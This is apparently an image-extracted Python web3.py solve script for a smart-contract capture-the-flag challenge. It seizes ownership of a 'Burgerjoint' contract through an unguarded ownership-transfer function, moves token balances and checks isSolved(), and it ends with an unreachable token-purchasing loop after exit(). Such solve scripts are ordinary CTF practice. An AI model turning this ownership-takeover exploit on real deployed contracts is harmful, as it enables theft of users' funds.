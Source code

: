```python

owner = contract.functions.owner().call()
tx = contract.functions.transferBurgerjointOwnership(
    attacker.address
).build_transaction(
    {
        "from": attacker.address,
        "gas": 1000000,
        "nonce": w3.eth.get_transaction_count(attacker.address),
    }
)
signed_tx = attacker.sign_transaction(tx)
tx_hash = w3.eth.send_raw_transaction(signed_tx.rawTransaction)
w3.eth.wait_for_transaction_receipt(tx_hash)

tx = contract.functions.transfer(
    owner, contract.functions.getBalance(attacker.address).call()
).build_transaction(
    {
        "from": attacker.address,
        "gas": 1000000,
        "nonce": w3.eth.get_transaction_count(attacker.address),
    }
)
signed_tx = attacker.sign_transaction(tx)
tx_hash = w3.eth.send_raw_transaction(signed_tx.rawTransaction)
w3.eth.wait_for_transaction_receipt(tx_hash)

owner = contract.functions.owner().call()
print(contract.functions.getBalance(owner).call())
print(contract.functions.getBalance(attacker.address).call())
print(contract.functions.isSolved().call())
total_supply = contract.functions.totalSupply().call()
print(f"Current totalSupply: {total_supply}")
exit()


if stage == 0:
    while 1:
        tx = contract.functions.purchaseBurger().build_transaction(
            {
                "from": attacker.address,
                "gas": 1000000,
                "nonce": w3.eth.get_transaction_count(attacker.address),
            }
        )
        signed_tx = attacker.sign_transaction(tx)
        tx_hash = w3.eth.send_raw_transaction(signed_tx.rawTransaction)
        w3.eth.wait_for_transaction_receipt(tx_hash)

        tx = contract.functions.transfer(
            contract.functions.owner().call(), 1
        ).build_transaction(
            {
                "from": attacker.address,
                "gas": 1000000,
                "nonce": w3.eth.get_transaction_count(attacker.address),
            }
        )
        signed_tx = attacker.sign_transaction(tx)
        tx_hash = w3.eth.send_raw_transaction(signed_tx.rawTransaction)
        w3.eth.wait_for_transaction_receipt(tx_hash)
        receipt = w3.eth.get_transaction_receipt(tx_hash)
```